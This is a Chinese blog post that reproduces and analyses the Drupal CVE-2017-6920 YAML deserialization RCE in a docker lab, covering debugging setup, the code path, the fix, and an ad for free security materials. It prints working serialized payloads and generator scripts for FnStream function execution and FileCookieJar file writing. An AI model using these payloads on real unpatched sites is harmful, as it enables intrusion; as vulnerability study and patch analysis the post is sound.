# 【漏洞分析】Drupal 远程代码执行（CVE-2017-6920） - 合天网安实验室 - 博客园

> 原文：[`www.cnblogs.com/hetianlab/p/16474817.html`](https://www.cnblogs.com/hetianlab/p/16474817.html)

前几天在参加 FOFA-攻防挑战赛时，遇到了 Drupal 的盲盒漏洞环境，最终确定漏洞为 CVE-2017-6920 ，但是还是无法 getflag ，因为网上相关参考文章并不是很多，大多都只是简单的复现了，于是就想着对这个漏洞进行一个详细的分析。

# 漏洞描述


# 环境搭建

环境的搭建，我们可以选择 p 神 的 [Vulhub](https://github.com/vulhub/vulhub/tree/master/drupal/CVE-2017-6920) 上的环境，我们也可以利用 [vulfocus](https://vulfocus.cn/) 的在线环境，或者将镜像拉取下来本地启动。

因为 p 神的环境还需要再进行配置 `yaml` ，为了方便，我们这里就选择 vulfocus 的镜像来进行复现学习



> ```
> docker pull vulfocus/drupal-cve_2017_6920:latest
> docker ps
> ```



访问随机生成的端口 49156 `[`127.0.0.1:49156/`](http://127.0.0.1:49156/)`


# 漏洞复现

访问登录界面 `[`127.0.0.1:49156/user/login`](http://127.0.0.1:49156/user/login)`


输入账号密码 admin:admin123

登录成功


登陆成功后访问路由 

> `/admin/config/development/configuration/single/import`



填写相关参数

> `!php/object "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\0GuzzleHttp\\Psr7\\FnStream\0methods\";a:1:{s:5:\"close\";s:7:\"phpinfo\";}s:9:\"_fn_close\";s:7:\"phpinfo\";}"`



点击 `import` 触发漏洞



【----帮助网安学习，以下所有学习资料免费领！加 vx：yj009991，备注 “博客园” 获取！】

　① 网安学习成长路径思维导图
　② 60+网安经典常用工具包
　③ 100+SRC 漏洞分析报告
　④ 150+网安攻防实战技术电子书
　⑤ 最权威 CISSP 认证考试指南+题库
　⑥ 超 1800 页 CTF 实战技巧手册
　⑦ 最新网安大厂面试题合集（含答案）
　⑧ APP 客户端安全检测指南（安卓+IOS）

# 漏洞分析

漏洞存在于 drupal 8.3.3 所以我们下载 存在漏洞的版本 drupal 8.3.3 和修复的版本 drupal 8.3.4 进行对比，发现漏洞位于

> `core\lib\Drupal\Component\Serialization\YamlPecl.php`


我们看到修改的位置有这么一句 

> `// We never want to unserialize !php/object.`

就大概可以推测出是在这个地方，以`!php/object` 为开头时 会产生反序列化漏洞

为了方便进行调试，所以我们换一下 docker 启动时的命令，方便启动后进行 php 远程调试，在配置调试环境时出现了各种问题，本来是在本地搭建 docker 环境进行调试的，但是一直没有成功，所以就采用在虚拟机中搭建 docker 环境，采用远程调试。

> docker run -itd -p 80:80 vulfocus/drupal-cve_2017_6920:latest
> 
> wget [`xdebug.org/files/xdebug-2.5.5.tgz`](https://xdebug.org/files/xdebug-2.5.5.tgz)
> 
> docker cp xdebug-2.5.5.tgz 30:/xdebug-2.5.5.tgz
> 
> docker exec -it 30 /bin/bash
> 
> cd /
> 
> tar xvf xdebug-2.5.5.tgz
> 
> cd xdebug-2.5.5
> 
> phpize
> 
> find / -name php-config
> 
> ```
> `/etc/alternatives/php-config`  
> `/usr/bin/php-config`  
> `/var/lib/dpkg/alternatives/php-config`
> ```
> 
> ./configure --enable-xdebug --with-php-config=/usr/bin/php-config
> 
> make && make install ==xdebug 被安装到了 /usr/lib/php5/20121212/==
> 
> find / -name php.ini
> 
> ```
> `/etc/php5/cli/php.ini`  
> `/etc/php5/apache2/php.ini`
> ```
> 
> vim /etc/php5/apache2/php.ini ==修改 php.ini 文件==
> 
> shift + g ==定位到最后一行==
> 
> `echo "<?php phpinfo(); ?>" > /var/www/html/phpinfo.php`
> 
> sudo service apache2 restart

修改 php.ini 配置文件，在文件中追加以下内容

> ```
> [Xdebug]
> zend_extension=/usr/lib/php5/20121212/xdebug.so;指定 Xdebug 扩展文件的路径
> xdebug.remote_enable=1 ;是否开启远程调试
> xdebug.remote_handler=dbgp ;指定远程调试的处理协议
> xdebug.remote_mode=req ;可以设为 req 或 jit，req 表示脚本一开始运行就连接远程客户端，jit 表示脚本出错时才连接远程客户端。
> xdebug.remote_host=192.168.222.1 ;指定远程调试的主机名（安装 phpstorm 的主机 ip）
> xdebug.remote_port=9001 ;指定远程调试的端口号
> xdebug.idekey="PHPSTORM" ;指定传递给 DBGp 调试器处理程序的 IDE Key
> xdebug.remote_enable=on; 
> ​
> ​
> ​
> [Xdebug]
> zend_extension=/usr/lib/php5/20121212/xdebug.so;
> xdebug.remote_enable=1;
> xdebug.remote_handler=dbgp;
> xdebug.remote_mode=req;
> xdebug.remote_host=192.168.222.1;
> xdebug.remote_port=9001;
> xdebug.idekey="PHPSTORM";
> ```

访问 [`192.168.222.129/phpinfo.php`](http://192.168.222.129/phpinfo.php) 发现 xdebug 被安装成功



先将代码拷贝出来 

> `docker cp 30:/var/www/html html`

利用 PHPSTROM 打开项目代码

File -> Settings -> Languages & Frameworks -> PHP -> Debug




配置 Servers



此处要注意，需要直接指定到网站的目录位置

配置 PHP Web Application



配置完成后打开右上角的电话按钮


打开浏览器的插件 Xdebug helper



在 phpinfo 处加载断点，并访问 `[`192.168.222.129/phpinfo.php`](http://192.168.222.129/phpinfo.php)`成功加载到断点



之前也配置过 PHP 的远程调试环境，但是在 Docker 里面调试的时候，配置了很久的调试环境，最后才成功，中间出了大大小小无数的问题，遇到的最大的问题是最开始端口一直显示被占用状态，因为我启动 docker 时的命令是 `docker run -itd -p 80:80 -p 9001:9001 vulfocus/drupal-cve_2017_6920:latest` 我一直认为说这个 9001 端口也要对外映射出来，但是我在调试时发现一直提示端口被占用，百思不得其解，采用百度大法看到了这么一句 `不要在 docker-compose 中添加 9000 端口` ，我灵机一动，将 -p 9001:9001 给删除掉，就成功了。这下我才完全理解了，原来这个端口是远程调控，就是安装 PHPSTORM 机器上的端口。

正式开始调试分析

漏洞的最终触发位置是在

> core/lib/Drupal/Component/Serialization/YamlPecl.php::decode



对传入的 参数 $raw 如果可控的话，如果使用!php/object，那么 yaml_parse 将会以反序列化（unserialize）的形式来进行处理字符串。


我们看在哪里可以调用

> YamlPecl.php::decode
> 
> core/lib/Drupal/Component/Serialization/Yaml.php::decode


decode 函数中 调用了静态 `getSerializer` 函数


如果存在 yaml 扩展，`$serializer` 就使用 `YamlPecl` 类，之后会调用 `YamlPecl` 类中的 decode 函数；

如果不存在 yaml 扩展，`$serializer` 就使用 `YamlSymfony` 类，之后会调用 `YamlSymfony` 类中的 decode 函数。 目前的环境是已经安装了 yaml 扩展了，所以我们只需要寻找，可控输入的 

> `Yaml::decode`
> 
> `core/modules/config/src/Form/ConfigSingleImportForm.php::validateForm`



如此我们就已经确定了漏洞的触发位置，以及漏洞的入口点，但是距离漏洞的利用成功还差一个 payload

我们已经知道这个漏洞是一个反序列化漏洞，我们就要找出这个系统中存在的反序列化链，针对这个漏洞有两条利用链路，任意命令执行以及任意文件写入

## 任意命令执行

> `html\vendor\guzzlehttp\psr7\src\FnStream.php`



反序列化这个类造成任意无参数函数执行

> ```
> <?php
> namespace GuzzleHttp\Psr7;
> class FnStream {
>  public function __construct(array $methods)
>  {
>  $this->methods = $methods;
> ​
> ​
>  // Create the functions on the class
>  foreach ($methods as $name => $fn) {
>  $this->{'_fn_' . $name} = $fn;
>  }
>  }
>  public function __destruct()
>  {
>  if (isset($this->_fn_close)) {
>  call_user_func($this->_fn_close);
>  }
>  }
> }
> $fn = new FnStream(array('close'=>'phpinfo'));
> echo(serialize($fn))
> ?>
> ```



序列化字符串加上 yaml 的!php/object

> ```
> !php/object "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:7:\"methods\";a:1:{s:5:\"close\";s:7:\"phpinfo\";}s:9:\"_fn_close\";s:7:\"phpinfo\";}"
> ```





## 任意文件写入

> `html\vendor\guzzlehttp\guzzle\src\Cookie\FileCookieJar.php`



反序列化这个类达到任意文件写入的效果，但是因为这个系统启动并不是 root 权限启动，所以只有在 tmp 目录下写文件的权限

> ```
> <?php
> ​
> require __DIR__.'/vendor/autoload.php';
> ​
> ​
> use GuzzleHttp\Cookie\FileCookieJar;
> use GuzzleHttp\Cookie\SetCookie;
> ​
> ​
> $Limerence = new FileCookieJar('/tmp/shell.txt');
> $payload = '1';
> $data=array(
>  'Name' => "Limerence",
>  'Value' => "Limerence",
>  'Domain' => $payload,
>  'Expires' => time()
> );
> $Limerence->setCookie(new SetCookie($data));
> echo(addslashes(serialize($Limerence)));
> ```


> ```
> !php/object "O:31:\"GuzzleHttp\\Cookie\\FileCookieJar\":4:{s:41:\"\0GuzzleHttp\\Cookie\\FileCookieJar\0filename\";s:14:\"/tmp/shell.txt\";s:52:\"\0GuzzleHttp\\Cookie\\FileCookieJar\0storeSessionCookies\";b:0;s:36:\"\0GuzzleHttp\\Cookie\\CookieJar\0cookies\";a:1:{i:0;O:27:\"GuzzleHttp\\Cookie\\SetCookie\":1:{s:33:\"\0GuzzleHttp\\Cookie\\SetCookie\0data\";a:9:{s:4:\"Name\";s:9:\"Limerence\";s:5:\"Value\";s:9:\"Limerence\";s:6:\"Domain\";s:1:\"1\";s:4:\"Path\";s:1:\"/\";s:7:\"Max-Age\";N;s:7:\"Expires\";i:1657262153;s:6:\"Secure\";b:0;s:7:\"Discard\";b:0;s:8:\"HttpOnly\";b:0;}}}s:39:\"\0GuzzleHttp\\Cookie\\CookieJar\0strictMode\";N;}"
> ```


# 漏洞修复

根据对比官方对 drupal 8.3.4 的修补，我们得出 针对低于版本 drupal 8.3.4 的代码中 在

> `core\lib\Drupal\Component\Serialization\YamlPecl.php`

的 `decode` 函数修改为

> ```
>  public static function decode($raw) {
>  static $init;
>  if (!isset($init)) {
>  ini_set('yaml.decode_php', 0);
>  $init = TRUE;
>  }
>  if (!trim($raw)) {
>  return NULL;
>  }
>  set_error_handler([__CLASS__, 'errorHandler']);
>  $ndocs = 0;
>  $data = yaml_parse($raw, 0, $ndocs, [
>  YAML_BOOL_TAG => '\Drupal\Component\Serialization\YamlPecl::applyBooleanCallbacks',
>  ]);
>  restore_error_handler();
>  return $data;
>  }
> ```

# 总结反思

之前也实现过远程调试，但是对 docker 内的系统进行调试还没有做过，不对的试错过程中，也对 docker 进一步加深的认知与了解。

******更多靶场实验练习、网安学习资料，[请点击这里>>](https://www.hetianlab.com/)******

搜索

复制